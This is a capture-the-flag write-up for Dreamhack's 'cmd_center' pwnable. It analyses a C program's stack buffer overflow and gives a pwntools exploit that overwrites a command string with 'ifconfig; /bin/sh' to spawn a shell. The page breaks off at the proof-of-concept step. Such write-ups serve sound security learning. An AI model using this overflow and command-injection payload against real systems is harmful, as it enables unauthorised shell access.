

# 🚩 Beginner - cmd_center

**Category:** Pwnable
**Platform:** Dreamhack

**Description:**
You don't need to verify your IP! Can't you use other commands?
If you used a different command, get a flag!

---

## 🛠️ Step-by-Step Solution

### Step 1 : Analyze 
First, let's analyze the provided C source code:
```c
int main() {
        char cmd_ip[256] = "ifconfig";
        int dummy;
        char center_name[24];

        init();
        printf("Center name: ");
        read(0, center_name, 100);

        if( !strncmp(cmd_ip, "ifconfig", 8)) {
                system(cmd_ip);
        } else {
                printf("Something is wrong!\n");
        }
        exit(0);
}
```
The program declares a `center_name` variable with a capacity of 24 bytes, but the `read()` function allows the user to input up to 100 bytes. After reading the input, the program checks if the first 8 bytes of the `cmd_ip` variable match the string `"ifconfig"`. If they match, it calls `system(cmd_ip)`.

**🔍 VULNERABILITY ANALYSIS:**
The core vulnerability here is a **Buffer Overflow**. 
Analyzing the assembly code of the `main` function via GDB to find the variable locations on the Stack:
- The `center_name` variable is located at `[rbp-0x130]`.
- The `cmd_ip` variable is located at `[rbp-0x110]`.

The distance from the `center_name` input buffer to the `cmd_ip` execution string is: `0x130 - 0x110 = 0x20` (which is 32 bytes).

Based on this vulnerability, the exploitation idea is: Input 32 junk characters (e.g., 'A') to fill the gap up to the `cmd_ip` variable, then overwrite the value of `cmd_ip` with a malicious command string: `ifconfig; /bin/sh`. Since the `strncmp` function only checks the first 8 characters (which perfectly matches `ifconfig`), the program still considers this valid input. The `system()` function will then be called, executing `ifconfig`, and subsequently running `/bin/sh` (separated by the `;` delimiter) to pop a shell for us.
### Step 2 : Exploit
Below is the exploit script (using the `pwntools` library):
```python
io = start()
# Wait for the prompt
io.recvuntil(b"Center name: ")
# Send 32 junk bytes (padding) to reach cmd_ip + overwrite with the new command string
payload = b"A" * 32 + b"ifconfig" + b"; /bin/sh"
io.sendline(payload)

# Switch to interactive mode to interact with the shell
io.interactive()
```
→ **Note:** This snippet only demonstrates the core exploit logic. You need to write the complete script yourself to make it run (or use a `pwn` template like I did:33).

**🎯 PROOF OF CONCEPT:**
Execute the script. The payload successfully bypasses the check and grants shell access. Finally, run the `cat flag` command to read the flag:

